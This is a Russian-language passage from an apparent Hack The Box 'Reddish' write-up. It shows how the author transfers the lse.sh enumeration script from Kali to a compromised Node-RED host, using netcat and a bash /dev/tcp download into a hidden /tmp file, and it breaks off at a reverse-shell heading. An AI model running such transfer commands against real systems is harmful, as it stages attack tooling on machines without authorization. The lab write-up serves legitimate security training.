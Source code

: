 Испытаем этот поток в деле: я запускаю `nc` на Kali с указанием передать скрипт для проведения локальной разведки на Linux [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) (который я начал использовать вместо привычного [LinEnum.sh](https://github.com/rebootuser/LinEnum)), дожидаюсь окончания загрузки и проверяю контрольные суммы обоих копий.

На Kali:

```
root@kali:~# nc -lvnp 8889 < lse.sh
...
root@kali:~# md5sum lse.sh
7d3a4fe5c7f91692885bbeb631f57c70  lse.sh
```

![web-node-red-file-upload-ex.png](/assets/images/htb/machines/reddish/web-node-red-file-upload-ex.png)
{:.center-image}

На Node-RED:

```
root@nodered:/tmp# md5sum .file
7d3a4fe5c7f91692885bbeb631f57c70  .file
```

**Загрузка файлов из командной строки**

Откровенно говоря, такой подход к трансферу файлов избыточен, ведь всю процедуру можно провести, не отходя от терминала.

```
root@kali:~# nc -w3 -lvnp 8889 < lse.sh
root@nodered:~# bash -c 'cat < /dev/tcp/10.10.14.19/8889 > /tmp/.file'
```

### reverse-shell

Я не был доволен тем шеллом, который был построен из абстракций Node-RED (некорректно читались некоторые символы, и вообще вся эта конструкция выглядела очень ненадежно), поэтому я получил полноценный Reverse Shell.
